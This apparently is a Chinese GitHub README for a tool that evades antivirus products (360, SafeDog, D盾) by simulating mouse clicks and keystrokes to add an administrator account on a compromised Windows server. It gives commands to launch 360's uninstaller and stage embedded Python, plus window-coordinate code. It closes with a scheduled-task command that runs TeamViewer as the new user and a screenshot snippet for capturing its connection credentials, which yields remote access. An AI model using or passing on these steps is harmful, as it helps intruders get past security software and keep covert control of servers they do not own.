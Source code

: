 # BypassAVAddUsers
一种基于行为模拟的理论绕过所有杀毒软件添加管理用户的手法研究

360 安全狗 D盾实测通过

https://xz.aliyun.com/t/4078


### 0x01 About


嗯 这是一个企图Uninstall All AVs失败的产物

基本思路是模拟点击 输入

通过下面指令可运行360的卸载程序

```
cd "C:/Program Files/360/360safe/" & start uninst.exe
```

![15497698568564.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211224834-1b965c40-2e0c-1.jpeg)


这程序的按钮有两个ShadowEdge保护

![15497830116988.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211224853-268aed64-2e0c-1.jpeg)


直接运行py脚本取点击会被拒绝

新建一个bat再用start来启动就可以绕过了

<iframe width="560" height="315" src="http://v.youku.com/v_show/id_XNDA1NzEyMzkyMA==.html?spm=a2h3j.8428770.3416059.1" frameborder="0" allowfullscreen></iframe>


（原视频在附件压缩包）

如视频所示 模拟点击处最终确认按钮后无法点击 

查阅资料得知这尼玛是360SPTools.exe设了很多阻碍 搞一天没突破

回念一想 不如直接添加用户 才有了本文


### 0x02 server

为了方便修改调整 采用Python做了本次任务的 不是每个目标上都有py的环境 所以手动配置咯


直接上传或使用下面脚本下载Python的embeddable版本到服务器（脚本不支持https 改半天实在没办法 需到Py官网下载后再上传到http的服务器上 带解压）

```
https://github.com/TheKingOfDuck/BypassAVAddUsers/blob/master/download.php
```

![15497688551641.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211225513-09247596-2e0d-1.jpeg)

![0CE11AF8D40F1C7F767F18E2B2C64A2D.png](https://xzfile.aliyuncs.com/media/upload/picture/20190211225534-15a487a2-2e0d-1.png)



由于需要用到`pywin32`模块 该模块无法使用pip安装所以顺便安装一下

pip：
```
start python.exe ../get-pip.py
```
（踩坑经验：先修改环境目录下的`python37._pth`文件，去掉 #import site 前的注释再执行命令 否则也无法安装成功不注释 不使用start来运行也安装不成功）

pywin32：

```
start python.exe -m pip install pywin32
```

执行完所有需要的依赖也就安装好了 无需GUi即可完成。

### 0x03 AddUsers

刚开始是想通过控制面板添加用户 可以通过脚本执行`control userpasswords`打开控制面板 但是步骤不叫繁琐 而且进程是`explore` 窗口不好控制。

可通过`lusrmgr.msc`（本地用户和组管理工具）来做。

![15498938908367.jpg](https://xzfile.aliyuncs.com/media/upload/picture/20190211225600-25497230-2e0d-1.jpeg)


打开后需要计算图中中间那个"用户"按钮的位置 经过测试发现 它到顶端的距离和到坐标的距离无人为调整的话是不会边的 所有可获取该窗口左上角点的坐标来计算其坐标

```
#输出MMCMainFrame的窗口名称
MMCMainFrame = win32gui.FindWindow("MMCMainFrame", None)
# print("#######################")
titlename = (win32gui.GetWindowText(MMCMainFrame))
# print(titlename)
# print("#######################")

hWndChildList = []
a = win32gui.EnumChildWindows(MMCMainFrame, lambda hWnd, param: param.append(MMCMainFrame),  hWndChildList)
# print(a)

#获取窗口左上角和右下角坐标
a, b, c, d = win32gui.GetWindowRect(MMCMainFrame)
```

a, b,即为需要的值

```
# 计算得出MMCMainFrame窗口的顶边距离“用户”这个标签120个坐标点 该值除非调动 否则不变
# userPosH = 237 -117
# print(userPosL)
# userPosL = 120
#计算得出MMCMainFrame窗口的坐标边距离“用户”这个标签120个坐标点 该值除非调动 否则不变
# userPosH = 1145 - 915
# print(userPosH)
# userPosH = 230
```

(a + 230, b + 120 )即为需要的值 实战中如有出入可采用PIL模块截图回传下来计算。


剩下的就是常规的模拟点击 模拟输入 完整代码见：


```
https://github.com/TheKingOfDuck/BypassAVAddUsers/blob/master/adduser.py
```



### 0x03 Test

360全家桶 安全狗 D盾 ：

原视频在附件压缩包： 


<iframe width="560" height="315" src="http://v.youku.com/v_show/id_XNDA1NzEyMzkyMA==.html?spm=a2h3j.8428770.3416059.1" frameborder="0" allowfullscreen></iframe>

（原视频在附件压缩包）

（云锁要求必须在服务区上安装 故没测试）

### 0x03 Summary

添加用户后如果服务器没开3389可上传一个单文件版本的teamviewer
再通过下面指令运行起来

```
schtasks /create /sc minute /mo 1 /tn “cat” /tr TV的路径  /ru 创建的用户名 /rp 创建的密码
```

使用PIL截图获取连接ID密码：

```
from PIL import ImageGrab
im = ImageGrab.grab()
im.save('screenshot.png')
```

如此一来就不用任何0day 全程合法文件的取得了远程桌面的权限。




